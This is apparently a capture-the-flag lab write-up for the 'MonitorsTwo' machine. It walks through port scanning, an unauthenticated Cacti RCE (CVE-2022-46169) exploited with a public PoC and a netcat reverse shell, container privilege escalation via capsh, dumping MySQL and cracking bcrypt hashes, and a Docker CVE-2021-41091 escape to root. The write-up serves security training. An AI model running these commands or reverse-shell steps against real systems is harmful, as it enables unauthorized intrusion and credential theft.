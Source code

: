 # Monitors 2

## Service Enumeration

To begin with, I start scanning all the ports on the target to obtain an overall picture of the target. For this I use following command “sudo nmap -sS --min-rate 10000 -p- monitors2.htb”

![Imagen1](images/Monitors2/Imagen1.png)

Once the open ports are known, It began the service enumeration process. In order to do this, nmap tool was used and, specifically the following command: “sudo nmap -sS -sV -O -oN moni-tors2ServiceVersions p22,80 -Pn monitors2.htb”

![Imagen2](images/Monitors2/Imagen2.png)

### Port Scan Results



### HTTP Enumeration

The first thing done is to manually visit the web. Landing page is a login page where it is found that web server is running Cacti software version 1.2.22

![image](images/Monitors2/Imagen3.png)

With this information, I elaborate a dictionary with the default cacti directories (found on cacti github https://github.com/Cacti/cacti.git ) and run a directory scan using gobuster to find which of those pages I have access to.

![image](images/Monitors2/Imagen4.png)

Simultaneously software version vulnerabilities are search and a very interesting Un-authenticated RCE vulnerability is found (CVE 2022-46169).

## Initial Access – Unauthenticated RCE

**Vulnerability Explanation**: Cacti software version 1.2.22 is prone to an unauthenticated RCE vulnerability. The problem resides in “remote_agent.php” as it can be accessed without authen-tication and the way it checks if the remote host is authorized is by looking the entries at the “poller” table and verifying that there is a entry where the hostname is equal to the remote host-name (obtained from the IP address (previously retrieved by get_client_addr function) using gethostbyaddr function). It is possible to bypass this authentication method by using the HTTP header “Forwarded-For” and introducing the server IP address (“https://nvd.nist.gov/vuln/detail/CVE-2022-46169”). 

**Vulnerability Fix**: Update the software to version 1.2.23 or greater.

**Severity**: Critical

**Steps to reproduce the attack**: In order to reproduce the attack, the steps taken were the following:

  • Download exploit PoC from “https://github.com/devilgothies/CVE-2022-46169/blob/main/CVE-2022-46169.py”.
      
  •	Setup a listener in port 444 with “nc -lvp 444”
      
  •	Run the exploit using the command “python cactiRCE.py –url http://monitorstwo.htb --ip 10.10.14.9 --port 444”
      
![image](images/Monitors2/Imagen5.png)
    
  •	Receiving the shell in port 444.
      
![image](images/Monitors2/Imagen6.png)

**Proof of Concept Code**: no modifications were made to the original exploit PoC obtained from “https://github.com/devilgothies/CVE-2022-46169/blob/main/CVE-2022-46169.py”.

## Docker Privilege escalation & Docker Escape.

Once a shell as www-data is obtained, it is clear that there is a docker running. It is clear because of:

      •	Existence of the files “/.docker.env” and “/entrypoint.sh”

      •	Hostname is “50bca5e748b0”

      •	We find ourselves in a restricted environment with limited commands, no “ifcon-fig”, no “ping”.
 
![image](images/Monitors2/Imagen7.png)

To escalate privileges, find command will be used to search for SUID binaries in the container.

![image](images/Monitors2/Imagen8.png)

As shown in the previous picture, capsh is found. This binary is very useful at privilege escalation stage (https://gtfobins.github.io/gtfobins/capsh/) as it is possible to spawn a privilege bash using “./capsh --gid=0 --uid=0 --".

![image](images/Monitors2/Imagen9.png)

Now that root shell is obtained inside the container, the next step is to escape outside the container to the host.

For this step, it is vital the “/entrypoint.sh” file. 

![image](images/Monitors2/Imagen10.png)

As it is shown in the highlighted area, there are cleartext credentials for MySQL user “root”. 

Trying to use mysql tool inside the container is very slow so it is decided to dump the database and to inspecting manually on the attacking machine. For this, mysqldump tool is used “mysqldump -h db -u root -p --all-databases > /tmp/dumping.sql”.

![image](images/Monitors2/Imagen11.png)

To transfer the file to the attacking machine, I simply locate the file on the web server root, make it public changing its permissions to 777 and download it with “wget http://monitorstwo.htb/dumping.sql”.

Once on the attacking machine, inspecting the contents, password hashes are found for three different users: guest, admin and marcus.

![image](images/Monitors2/Imagen12.png)

METER FOTO HASHES

“Admin” and “Marcus” hashes are “bcrypt $2*$, Blowfish” type of hash.

Next step is to try and crack these hashes. For this, hashcat will be used and specifi-cally “.\hashcat -m 3200 -a 0 hash.txt rockyou.txt”.

![image](images/Monitors2/Imagen13.png)

As seen in Illustration 13 recovered password for user “marcus” is “funkymonkey”. Using these credentials via ssh on the host lets us escape the docker environment and access as a regular user on the host “monitorstwo”.

![image](images/Monitors2/Imagen14.png)

Once inside the host, an interesting mail file is found “/var/mail/marcus”.

![image](images/Monitors2/Imagen15.png)

Mail contains a message from the Administrator to everybody where it talks about some vulnerabilities that need to be patched in the system. Checking software ver-sions, it is possible to confirm that Docker software version is vulnerable to “CVE-2021-41091”

## Privilege Escalation – CVE-2021-41091

**Vulnerability Explanation**: There is a vulnerability in Moby Docker Engine where the data directo-ry “/var/lib/docker” contains subdirectories with insufficiently restricted permissions. As a result, an unprivileged user on the host, can traverse directory contents and execute programs. If the UID of the user on the Host, collided with the file owner or group inside the container, the unpriv-ileged user of the host could discover, read, and modify those files (https://github.com/kube-tarian/sigrun/issues/100) (https://ajxchapman.github.io/containers/2020/11/19/privileged-container-escape.html). 
Taking into account the latter, if a binary is owned by root in the container, it will be owned also by root once accessed from outside the container. A copy of “/bin/bash” will be moved inside the container, SUID will be set to this copy by root, and then it will be accessed and executed from outside the container allowing user “marcus” to gain privileges and become root.

**Vulnerability Fix**: Update Moby to v20.10.9.

**Severity**: Medium

**Steps to reproduce the attack**:

• Identify the host path of files within the container. This can be done by extracting the “upperdir” mount option of the container mount point 
      ```
      sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab
      ```
      
![image](images/Monitors2/Imagen16.png)

• Check that from the host with a non-privileged user it is possible to interact with the container file system. A file “/tmp/checking” will be created inside the container and accessed from the host via “/var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/diff/tmp/checking”

![image](images/Monitors2/Imagen17.png)

![image](images/Monitors2/Imagen18.png)

• Copy bash binary from the host to the container.

![image](images/Monitors2/Imagen19.png)

![image](images/Monitors2/Imagen20.png)

• Change the owner to root:root and set permissions to 4755 (SUID) to /tmp/bash from inside the container as root.

![image](images/Monitors2/Imagen21.png)

• Check permissions of the file from the host as “marcus”.

![image](images/Monitors2/Imagen22.png)

• Elevate privileges executing the binary with “-p” flag from outside the container.

![image](images/Monitors2/Imagen23.png)

### Post-Expoitation

**System Proof Screenshot**

![image](images/Monitors2/Imagen24.png)

![image](images/Monitors2/Imagen25.png)





      






